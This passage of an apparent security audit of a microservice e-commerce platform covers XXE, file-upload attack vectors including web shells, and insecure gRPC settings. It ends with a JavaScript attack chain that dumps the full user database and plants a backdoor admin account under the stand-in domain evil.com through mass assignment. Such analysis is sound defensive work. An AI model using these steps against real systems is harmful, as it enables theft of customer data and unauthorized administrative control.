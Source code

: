 ```php
        $doc = simplexml_load_string($xml);
        
        // Process XML data - can lead to file disclosure
    }
}
```

**File Upload Attack Vectors:**
- Web shell upload for remote code execution
- Path traversal for arbitrary file access
- XXE attacks for internal file disclosure
- ZIP bomb attacks for DoS

## Cross-Service Vulnerabilities

### Inter-Service Communication Security Flaws

**gRPC Security Misconfigurations:**
```typescript
// All services lack TLS configuration
const server = new grpc.Server();
server.bindAsync('0.0.0.0:50051', grpc.ServerCredentials.createInsecure());
// Should use: grpc.ServerCredentials.createSsl()
```

**Service Discovery Vulnerabilities:**
- Hardcoded service endpoints
- No service authentication
- Missing network segmentation
- Unencrypted inter-service communication

## Advanced Attack Scenarios

### Multi-Service Attack Chain

**Scenario: Complete E-commerce Platform Compromise**

```javascript
// Phase 1: User Service Compromise
// 1. Extract all user data via pagination abuse
let customerDatabase = [];
for (let page = 1; page <= 10000; page++) {
  const users = await usersService.listUsers({ pagination: { page, page_size: 100 }});
  customerDatabase.push(...users.users);
}

// 2. Create admin backdoor account
await usersService.createUser({
  email: "admin@evil.com",
  name: "System Administrator", 
  password: "backdoor123",
  is_admin: true,           // Mass assignment vulnerability
  is_verified: true,        // Bypass email verification
  credit_balance: 999999    // Financial manipulation
});
```
